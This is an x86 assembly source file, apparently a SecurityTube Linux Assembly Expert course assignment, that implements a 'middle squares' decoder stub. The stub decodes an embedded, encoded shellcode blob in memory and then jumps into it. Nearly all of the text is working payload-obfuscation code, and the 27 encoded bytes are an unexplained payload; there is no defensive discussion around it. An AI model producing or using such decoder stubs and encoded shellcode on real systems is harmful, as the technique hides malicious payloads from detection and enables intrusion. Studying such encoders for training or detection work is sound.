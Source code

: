 [Decoder Github link](https://github.com/fbcsec/slae-assignments/blob/master/4-custom-encoder/middle-squares-decoder.asm)

```nasm
; x86 middle squares decoder stub sample
; Author: @0x0fbc
; This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
; http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
; Student ID: SLAE - 1187

global _start

section .text

_start:
    jmp short call_decoder

setup:
    xor ecx, ecx            ; empty ecx
    pop esi                 ; pop the address of encoded shellcode to ESI
    mov edi, esi            ; save this address in EDI
    mov eax, 0x7d6d4489     ; write initial seed into eax
    mov cl, 0x07            ; move the length of the shellcode in bytes rounded up to the nearest byte into cl

decode_loop:
    mul eax                 ; square the seed
    mov ax, dx              ; We want the middle bytes between EAX and EDX combined. To get this simply we move the low bytes we want from EDX into the low bytes we will discard from EAX.
    ror eax, 0x10           ; then we rotate EAX 16 bits to get the bits into position. The output of this is not only what to decode our encoded shellcode but also the next round's seed.
    mov ebx, eax            ; copy the result into ebx to operate on, we need to hold onto the value returned by MUL in eax as it is the new seed for the next round of stretching.
    bswap ebx               ; when we dereference edi to get encoded bytes, they'll come back in little-endian format, to cut down on size we switch the endianness of ebx
    xor ebx, dword [edi]    ; decode four bytes of encoded shellcode
    mov [edi], ebx          ; write the encoded shellcode back to memory
    add edi, 0x04           ; increment edi so it points to the next four bytes of encoded shellcode
    loop decode_loop        ; if we haven't iterated over the entire shellcode, move to the next round of decoding.
    jmp esi                 ; otherwise JMP to what should be decoded shellcode.


call_decoder:
        call setup
        shellcode: db 0xd2,0x43,0x08,0xc3,0x8f,0x14,0xdb,0x37,0x89,0x06,0xa7,0xd2,0xfc,0x58,0xe4,0xee,0xd3,0x3f,0xe3,0xa3,0x65,0x15,0xe6,0xc3,0x39,0xf0,0x18

```
